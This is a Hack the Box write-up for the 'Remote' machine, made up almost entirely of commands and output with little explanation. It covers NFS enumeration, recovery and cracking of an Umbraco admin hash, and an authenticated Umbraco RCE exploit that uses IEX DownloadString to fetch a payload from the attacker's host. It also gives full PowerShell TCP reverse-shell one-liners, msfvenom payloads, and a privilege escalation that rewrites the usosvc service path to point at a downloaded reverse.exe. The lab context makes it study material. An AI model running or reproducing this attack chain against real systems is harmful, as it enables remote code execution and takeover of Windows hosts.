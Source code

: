 +++
title = "Hack the Box: Remote"
date = 2023-01-22
description = "Hack the Box: Remote"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: Remote

<!--more-->

# Remote

## Enumeration

### Nmap

```
# nmap -Pn --min-rate=10000 -sV -sC remote.htb -nvv -e tun0 -p- -A -T4

PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
2049/tcp  open  mountd        syn-ack 1-3 (RPC #100005)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3m26s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 45222/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 64256/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60458/udp): CLEAN (Failed to receive data)
|   Check 4 (port 15893/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
```

```
# gobuster dir -u http://remote.htb -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -x txt,htm,html,js,jsp,jsa,php,sql,xml,log,asp,aspx
```

`sudo showmount -e remote.htb`

`sudo mount -t nfs remote.htb:/site_backups /mnt`

`strings App_Data/Umbraco.sdf | grep admin`

`adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{“hashAlgorithm”:“SHA1”}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50`

`b8be16afba8c314ad33d812f22a04991b90e2aaa = baconandcheese admin@htb.local:baconandcheese`

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.77 LPORT=4444 -f psh -o reverse.ps1`

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.244',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$sm=(New-Object Net.Sockets.TCPClient('10.10.15.244',4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

`sudo python3 -m http.server 80 localhost:80`

`python3 /usr/share/exploitdb/exploits/aspx/webapps/umbraco.py -u admin@htb.local -p baconandcheese -i ‘[http://10.10.10.180](http://10.10.10.180 "http://10.10.10.180")’ -c powershell.exe -a “IEX (New-Object Net.WebClient).DownloadString(‘[http://10.10.15.77/reverse.ps1](http://10.10.15.77/reverse.ps1 "http://10.10.15.77/reverse.ps1")’)”``

`use exploit/multi/handler set payload windows/x64/shell_reverse_tcp set LHOST tun0 set ExitonSession false run CTRL^c sessions sessions -i 1`

`whoami type C:\Users\Public\user.txt 2914291796068d561105037356f72c2f`

``(new-object System.Net.WebClient).Downloadfile(‘[http://host/file.exe](http://host/file.exe "http://host/file.exe")’, ‘file.exe’)``

`whoami /priv`

`Get-Service -Name usosvc | Select-Object *``

`Get-WmiObject win32_service -filter “Name=‘usosvc’”`

`Get-WmiObject win32_service | ?{$_.Name -like ‘usosvc’} | select Name, DisplayName, State, PathName`

`Get-WmiObject win32_service -filter “Name=‘usosvc’” | Invoke-WmiMethod -Name Change -ArgumentList @(null,null,null,null,null,null,null,null,$null, “C:\Users\Public\Downloads\reverse2.ps1”)`

`Set-ItemProperty -Path “HKLM:\System\CurrentControlSet\Services\My Service” -Name ImagePath -Value “C:\Program Files (x86)\My Service\NewName.EXE”`

`msfvenom -p windows/shell_reverse_tcp lhost=10.10.15.77 lport=8888 -f exe --platform windows > reverse.exe`

`invoke-webrequest -Uri [http://10.10.15.77/reverse.exe](http://10.10.15.77/reverse.exe "http://10.10.15.77/reverse.exe") -OutFile reverse.exe`

`sc.exe config usosvc binpath= “C:\Users\Public\Downloads\reverse.exe”`

`sc.exe stop usosvc sc.exe start usosvc`
